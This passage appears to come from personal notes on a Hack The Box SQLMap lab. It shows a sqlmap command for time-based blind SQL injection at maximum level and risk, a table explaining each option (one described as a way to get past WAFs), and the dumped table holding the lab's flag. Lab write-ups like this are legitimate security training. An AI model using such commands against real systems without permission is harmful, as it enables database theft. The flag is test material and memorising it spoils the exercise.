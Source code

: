 
We need to use the following command instead:

```
python3 sqlmap.py -r case5.txt --batch --dump -T flag5 -D testdb --no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries
```

```ad-important
#### Breakdown of the command
---

|**Option**|**Purpose**|
|---|---|
|`-r case5.txt`|Load the HTTP request fromÂ `case5.txt`Â (e.g., a captured request from Burp Suite or browser).|
|`--batch`|Run in non-interactive mode (automatically selects default options without user input).|
|`--dump`|Dump the contents of the specified table (`-T flag5`).|
|`-T flag5`|Target the table namedÂ `flag5`.|
|`-D testdb`|Target the database namedÂ `testdb`.|
|`--no-cast`|Disable payload casting (e.g., treat all data as strings). Useful if the database returns data in unexpected formats.|
|`--dbms=MySQL`|Force SQLMap to treat the backend DBMS asÂ **MySQL**. Speeds up detection/exploitation.|
|`--technique=T`|UseÂ **time-based blind SQL injection**Â (slower but effective when other techniques fail).|
|`--time-sec=10`|Set the delay for time-based injections toÂ **10 seconds**Â (default: 5). Used to bypass WAFs or handle slow responses.|
|`--level=5`|Set theÂ **test level to 5**Â (max: 5). Enables advanced tests (e.g., testingÂ `Host`Â header for SQLi).|
|`--risk=3`|Set theÂ **risk level to 3**Â (max: 3). Enables riskier payloads (e.g., heavyÂ `OR`-based queries).|
|`--fresh-queries`|Ignore cached/stored query results. Forces SQLMap to re-run queries (useful if previous runs failed).|

```

After a long wait, we get the following:

```
Database: testdb
Table: flag5
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17} |
+----+---------------------------------+
```

## Case 6
---
![Pasted image 20250204162741.png](../../../../IMAGES/Pasted%20image%2020250204162741.png)